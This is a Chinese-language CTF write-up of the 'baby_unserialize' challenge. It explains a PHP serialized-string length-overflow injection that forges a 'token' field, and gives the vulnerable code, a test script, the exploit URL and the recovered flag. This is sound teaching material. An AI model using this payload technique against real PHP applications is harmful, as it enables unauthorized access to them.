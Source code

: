 # baby_unserialize

可恶，这里也有黑子。

一道反序列化题。不过之前没见过类似考点的php反序列化，还好搜到了[答案](https://xiaolong22333.top/index.php/archives/14/)，考点完全一致。

```php
<?php
session_start();
highlight_file(__FILE__);

class moectf{
    public $a;
    public $b;
    public $token='heizi';
    public function __construct($r,$s){
        $this->a = $r;
        $this->b = $s;
    }
}

$r = $_GET['r'];
$s = $_GET['s'];

if(isset($r) && isset($s) ){
    $moe = new moectf($r,$s);
    $emo = str_replace('aiyo', 'ganma', serialize($moe));
    $_SESSION['moe']=base64_encode($emo);

}

'a.php';
```

我之前直接被卡在这里，反序列化漏洞没有unserialize怎么搞？后来发现末尾的a.php不是打错了，是有这样一个文件，里面就是我们要找的unserialize函数。

```php
<?php
session_start();
highlight_file(__FILE__);

include('flag.php');

class moectf{
    public $a;
    public $b;
    public $token='heizi';
    public function __construct($r,$s){
        $this->a = $r;
        $this->b = $s;
    }
}

if($_COOKIE['moe'] == 1){
    $moe = unserialize(base64_decode($_SESSION['moe']));
    if($moe->token=='baizi'){
        echo $flag;
    }
}
```

看session还以为是seesion反序列化漏洞，但是没有解释引擎的差别没法利用。这题做法和上面提到的那篇博客完全一致。第一个文件将序列化后的字符串（这个序列化后很重要）中aiyo替换成ganma，发现替换后的字符串比原先多了一个。出现了个什么问题呢？序列化字符串对被序列化的类中的字段长度有规定，比如s:114要求后面的字符串只能有114的长度，可是你替换了不就变长了吗？故替换后是无法被反序列化的。

php在反序列化时，底层代码是以;作为字段的分隔，以}作为结尾，并且是根据长度判断内容。拿出sql注入一样的思路，我们自己伪造;和}来闭合，构造一个假的序列化字符串。可以做个实验。

```php
<?php
class moectf{
    public $a;
    public $b;
    public $token='heizi';
    public function __construct($r,$s){
        $this->a = $r;
        $this->b = $s;
    }
}
$test=new moectf('c','aiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyo";s:5:"token";s:5:"baizi";}');
$moe=serialize($test);
$emo = str_replace('aiyo', 'ganma', serialize($moe));
var_dump(unserialize($emo));
?>
```

aiyo每替换一次，都会造成长度1的溢出。我们要伪造剩下的";s:5:"token";s:5:"baizi";}部分，故需要填写27个aiyo。一个aiyo是s:4:"aiyo"，替换后是s:4:"ganma"。长度不一致，所以只有ganm会保留，a溢出。a不是有效的格式化字符串，反序列化失败。如果我们这样，多来几个aiyo，同时保证溢出的内容有效，不就可以自己随意替换后面的值了吗？就算后面真正的token不会被删除，php也只会反序列化}部分，自动忽略后面。故上面的例子是可以反序列化成功的。因此这就是我们的payload了。

- http://43.138.48.124:12345/?r=a&s=aiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyoaiyo%22;s:5:%22token%22;s:5:%22baizi%22;}

别忘了还有cookie。chrome里面去cookie处自己新建一个名为moe值为1的cookie后进入a.php即可看见flag。

## Flag
  > moe{Her3_1s_Y0ur_fl4g}